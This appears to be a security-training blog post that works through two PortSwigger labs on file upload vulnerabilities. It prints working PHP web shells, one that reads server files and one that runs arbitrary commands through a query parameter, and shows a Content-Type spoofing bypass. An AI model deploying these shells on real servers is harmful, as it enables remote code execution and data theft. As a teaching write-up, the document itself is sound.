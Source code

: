 ```yaml
---
title: PortSwigger SSVs - File upload vulnerabilities
date: 2023-12-20
categories: [Training, PortSwigger]
tags: [portswigger, server-side-vulnerabilities, file-upload-vulnerabilities, mime, burp, webshell, rce, file-extensions]
img_path: /assets/portswigger/server-side/file_upload
published: true
---
```


## What are file upload vulnerabilities?

**File upload vulnerabilities** are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. As a result, the user can upload arbitrary and potentially dangerous files.

Developers implement what they believe to be robust validation that is either inherently flawed or can be easily bypassed. For example, they may attempt to **blacking dangerous file types**, but fail to account for parsing discrepancies when checking the file extensions, or miss more obscure file types altogether. In other cases, the website may attempt to **check the file type by verifying properties that can be easily manipulated** by an attacker. 

Ultimately, even **robust validation measures may be applied inconsistenly** across the network of hosts and directories that form the website, resulting in discrepancies that can be exploited.

## Exploiting unrestricted file uploads to deploy a web shell

For a security perspective, the worst possible scenario is when a website allows you to upload server-side script, such as PHP, Java, Python, etc., and is also configured to execute them as code.

> _A **web shell** is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint._

If we are able to upload a web shell, we effectively have full control over the server. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Once uploaded, sending a request for this malicious file will return the target file's contents in response. 

A more versatile web shell may look like this:

```php
<?php echo system($_GET['command']); ?>
```

This script enables us to pass an arbitrary system command via a query parameter as follows:   
`GET /example/exploit.php?command=id HTTP/1.1`.

### Lab: Remote code execution via web shell upload

**Objective**:  _This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`._

1. Upon logging in, we can see an upload functionality:

    ![](lab1_upload.png){: width="60%" .normal}

2. We notice that this functionality is intended for uploading images, so let's enable Image capturing on Burp:

    ![](lab1_filters.png)

3. We will upload a normal picture and examine how the upload process works:

    ![](lab1_pic_upload.png){: width="60%" .normal}

    ![](lab1_pic_uploaded.png){: width="60%" .normal}

    ![](lab1_files_dir.png)

4. We can see that there is a GET request associated with the uploaded image which saves it under `/files/avatars/`. We can use this URL to access the image directly:

    ![](lab1_image.png)

5. Now we know how the upload files can be accessed, we can upload a webshell, get the contents of the required file, and submit our solution:

    ```shell
    $ sudo chmod +x webshell.php

    $ cat webshell.php
    <?php echo file_get_contents('/home/carlos/secret'); ?>

    $ ls -l webshell.php
    -rwxr-xr-x 1 root root 56 Dec 20 14:49 webshell.php
    ```

    ![](lab1_webshell_upload.png){: .normal}

    ![](lab1_content.png)

    ![](lab1_solved.png)

## Flawed file type validation

When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text, like your name or address. However, it isn't suitable for sending large amount of binary data, such as images or PDFs. In this case, the content type `multipart/form-data` is preferred.

Consider a field containing fields for uploading an image, providing a description for it, and entering your username. This might results in a request that looks like this:

![](request_image.png)

The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header, which provides some basic info about the input field it relates to. The individual parts may also contain their own `Content-Type` header, which tells the server the MIME type of the data that was submitted using this input.

> _A **media type**, aka **Multipurpose Internet Mail Extensions (MIME) type**, indicates the nature and format of a document, file, or assortment of bytes. MIME types are defined and standardized in IETF's RFC 6838._

One way that websites may attempt to validate file uploads is to check that this input-specific `Content-Type` header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like `image/jpeg` and `image/png`. Problems can arise when the value of this header is implicitly trusted by the server. If no further validation is performed to check whether the contents of this file actually match the supposed MIME type, this defence can be easily bypassed.

### Lab: Web shell upload via Content-Type restriction bypass

**Objective**: _This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this. To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: `wiener:peter`._

1. If we know try to upload the same webshell as before, `webshell.php`, we will get the following message:

    ![](lab2_error.png)

    ![](lab2_upload_burp.png)

2. We can see that the `Content-Type` of `webshell.php` file is `application/x-php`. If we change that to something that the site accepts, `image/jpeg` or `image/png`, we will be able to bypass this restriction:

    ![](lab2_upload_modified.png)

    ![](lab2_upload_webshell.png){: .normal}

3. We can now visit the URL that our webshell is stored, retrieved the content of the file, and submit our solution:

    ![](lab2_content.png)

    ![](lab2_solved.png)

## Resources

- [Server-side vulnerabilities](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice).
- [MIME types (IANA media types)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types)
- Related practice: [DVWA File Upload](https://cspanias.github.io/posts/DVWA-File-Upload/).